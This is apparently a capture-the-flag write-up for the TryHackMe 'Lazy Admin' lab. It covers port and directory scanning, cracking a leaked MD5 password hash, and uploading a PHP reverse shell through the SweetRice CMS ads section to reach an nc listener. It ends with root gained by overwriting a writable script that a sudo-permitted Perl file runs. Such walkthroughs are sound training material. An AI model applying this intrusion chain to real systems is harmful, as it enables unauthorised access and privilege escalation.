# Lazy Admin

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hashcat, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.113.196

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.113.196
```



**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.113.196 -w /usr/share/dirb/wordlists/common.txt
```



Page of Interest: /content



Site using Basic-CMS SweetRice which is vulnerable to SQLi

Run dirb on /content
```
dirb http://10.10.113.196
```



Pages of Interest: /content/as (login page), content/_themes/default/ (uploads), content/inc (uploads), content/js (index.html uses SweetRice.js)

Found file mysql_bakup_20191129023059-1.5.1.sql in http://10.10.113.196/content/inc/mysql_backup/



**USERNAME**: manager<br>
PASSWORD HASH: 42f749ade7f9e195bf475f37a44cafcb

### 2. CRACK PASSWORD HASH

ID hash type
```
hash-identifier
```



```
echo "42f749ade7f9e195bf475f37a44cafcb" > hash
john hash --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```



**PASSWORD**: Password123



SweetRice version 1.5.1

### 3. REVERSE SHELL

Get php rev shell frpm https://pentestmonkey.net/tools/web-shells/php-reverse-shell and edit IP



Paste rev shell code into new ads code section



Start listener
```
nc -lnvp 1234
```

Go to http://10.10.113.196/content/inc/ads/EXPLOIT.php to get connection





**USER FLAG**: THM{63e5bce9271952aad1113b6f1ac28a07}

Found MySQL login



**USERNAME**: rice<br>
**PASSWORD**: randompass

Check privileges
```
sudo -l
```



Can run backup.pl as root

### 5. PRIVILEGE ESCALATION



Don't have permission to edit backup.pl


backup.pl runs script in /etc/copy.sh which we have permission to edit



```
echo "#!/bin/bash\nbash" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```



**ROOT FLAG**: THM{6637f41d0177b6f37cb20d775124699f}